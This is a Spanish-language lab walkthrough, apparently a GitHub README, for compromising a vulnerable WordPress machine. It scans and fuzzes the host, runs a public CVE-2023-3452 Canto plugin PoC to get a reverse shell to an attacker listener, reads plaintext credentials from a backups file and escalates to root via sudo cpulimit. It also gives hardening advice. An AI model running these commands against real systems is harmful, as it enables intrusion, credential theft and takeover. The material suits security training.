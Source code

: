 # **Explotación de Máquina WordPress (Plugin Canto Vulnerable)**

![Nivel: Intermedio](https://img.shields.io/badge/Nivel-Intermedio-orange) ![CVE-2023-3452: Crítico](https://img.shields.io/badge/CVE--2023--3452-Cr%C3%ADtico-red)

## **Descripción**
Este repositorio documenta la explotación de una máquina Linux vulnerable a través de:
1. Vulnerabilidad en plugin WordPress Canto (CVE-2023-3452)
2. Fuzzing de directorios web
3. Escalada de privilegios mediante binario cpulimit

**Tiempo estimado**: 30-45 minutos  
**Dificultad**: Intermedia  
**Sistema operativo**: Linux (WordPress)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación Web](#explotación-web)
3. [Escalada de Privilegios](#escalada-de-privilegios)
4. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo de Red
```bash
sudo arp-scan -I eth0 --localnet
```
Identificamos IP objetivo: `10.0.2.5`

### 2. Escaneo Nmap Detallado
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.0.2.5 -oN full_scan
```
**Hallazgos clave**:
- 80/tcp : Apache HTTP Server (WordPress)

## **Explotación Web**

### 3. Fuzzing de Directorios
```bash
gobuster dir -u http://10.0.2.5 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
**Ruta crítica encontrada**:
```
/wp-content/plugins/canto
```

### 4. Explotación de CVE-2023-3452
```bash
git clone https://github.com/leoanggal1/CVE-2023-3452-PoC
cd CVE-2023-3452-PoC
python3 CVE-2023-3452.py -u http://10.0.2.5 -LHOST 10.0.2.4 -NC_PORT 4444 -s php-reverse-shell.php
```

### 5. Conexión Reversa
```bash
nc -nlvp 4444
```
**Mejora de Shell**:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## **Escalada de Privilegios**

### 6. Enumeración de Usuarios
```bash
find / -name backups 2>/dev/null
cat /var/wordpress/backups/creds.txt
```
**Credenciales obtenidas**:
- Usuario: erik
- Contraseña: [password_encontrado]

### 7. Acceso como Usuario
```bash
su erik
```

### 8. Escalada a Root
```bash
sudo -l
```
**Binario vulnerable**:
```
(ALL) NOPASSWD: /usr/bin/cpulimit
```

**Explotación**:
```bash
sudo cpulimit -l 100 -f /bin/sh
whoami  # Verificamos que somos root
```

## **Conclusión**

### Vulnerabilidades Críticas
1. Plugin WordPress Canto sin actualizar (CVE-2023-3452)
2. Credenciales almacenadas en texto plano
3. Configuración insegura de sudo para cpulimit

### Hardening Recomendado
- Actualizar plugin Canto a última versión
- Implementar autenticación de dos factores
- Restringir permisos sudo innecesarios


**¿Te resultó útil?** ¡Dale una ⭐ al repositorio!

> 🔐 **Aviso Legal**: Solo para uso en entornos con permiso explícito.

---

**Herramientas utilizadas**:
- Nmap
- Gobuster
- Exploit CVE-2023-3452
- Netcat

**Referencias**:
- [Detalles CVE-2023-3452](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3452)
- [Buenas Prácticas de Seguridad WordPress](https://wordpress.org/documentation/article/hardening-wordpress/)

